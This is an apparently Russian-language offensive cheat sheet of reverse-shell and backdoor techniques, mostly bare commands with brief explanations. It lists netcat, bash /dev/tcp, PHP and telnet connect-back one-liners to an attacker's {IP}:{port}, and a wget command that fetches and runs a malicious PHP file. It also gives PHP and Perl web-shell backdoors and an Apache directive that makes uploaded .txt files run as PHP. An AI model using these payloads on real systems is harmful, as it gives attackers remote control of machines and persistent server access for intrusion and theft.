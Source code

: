 # Сreat conect

слушать порт:
```bash
nc -lvnp {port}
```
подключиться к прослушиваемому порту:
или
```bash
nc -e /bin/sh {IP} {port}
```
или
```bash
bash -i >& /dev/tcp/{IP}/{port} 0>&1
```
```shell
/bin/bash -i > /dev/tcp/{IP}/{port} 0<&1 2>&1
```
```sh
sh -i >& /dev/tcp/{IP}/{port} 0>&1
```
или
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/{your_listeniing_port} 0>&1"
```
или
```php
php -r '$sock=fsockopen({ip},{port});exec("/bin/sh -i <&3 >&3 2>&3");'
```
или 
```shell 
mknod backpipe p; nc {IP} {port} 0<backpipe | /bin/bash 1>backpipe
```
* Создаётся именованный канал (pipe) с именем `backpipe`. Далее, с помощью `nc` устанавливается соединение с атакующим сервером. `stdin` берется из этого канала, а вывод командного интерпретатора `/bin/bash` направляется обратно в этот же канал. Это способ организовать двустороннюю связь через именованный канал.
```shell
mknod backpipe p; telnet {IP} {port} 0<backpipe | /bin/bash 1>backpipe
```
* Аналогичная первой команде с использованием `telnet` вместо `nc`. Также создается именованный канал для передачи команд между атакующим и жертвой.
или 
``` shell
telnet {IP} {1st_port} | /bin/bash | telnet {IP} {2nd_port}
```
* Устанавливается два telnet-соединения с атакующим сервером на двух разных портах (`<1st_port>` и `<2nd_port>`). Через эти соединения передается ввод и вывод командного интерпретатора.
или 
``` shell
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
- Команда скачивает вредоносный файл (обычно это PHP-скрипт) с указанного URL и сохраняет его в директорию `/tmp` под именем `bd.php`. Затем с помощью PHP запускается этот файл, что может позволить удаленному серверу выполнять произвольные команды на целевой машине.
# Create server
php
```bash
php -S {ip}:{port}
```
python
```bash
python3 -m http.server {port}
```
ngrok
```bash
// в одном терминале сначала поднимается сервер
php -S 127.0.0.1:1234
```

```bash
// в другом ngrok
ngrok http 9001
```
# Upadate shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# Backdoors

**`<?php passthru($_REQUEST['c']) ?>`**:

- Этот PHP-код принимает параметр `c` из запроса (`$_REQUEST['c']`) и передает его в функцию `passthru()`.
- Функция `passthru()` выполняет переданную команду в системе и выводит результат. Таким образом, злоумышленник может выполнить любую команду на сервере, указав её в параметре `c` URL-запроса.
или
```PHP
my @cmd = `$req`; foreach my $line (@cmd) { print $line . "<br/>"; }
```
- Он выполняет команду, переданную через переменную `$req`, и сохраняет результат выполнения в массив `@cmd`. Далее цикл `foreach` выводит каждую строку результата через `print`, добавляя HTML-тег `<br/>` для переноса строк.
- Аналогично предыдущему примеру, этот код позволяет выполнять произвольные команды на сервере и возвращать результат через веб-страницу.
или
**`AddType application/x-httpd-php .txt`**:

- Эта директива предназначена для настройки веб-сервера Apache. Она указывает, что файлы с расширением `.txt` должны обрабатываться как PHP-скрипты.
- В результате злоумышленник может загружать текстовые файлы с вредоносным PHP-кодом на сервер, которые будут исполняться как PHP, обходя стандартные ограничения по типам файлов.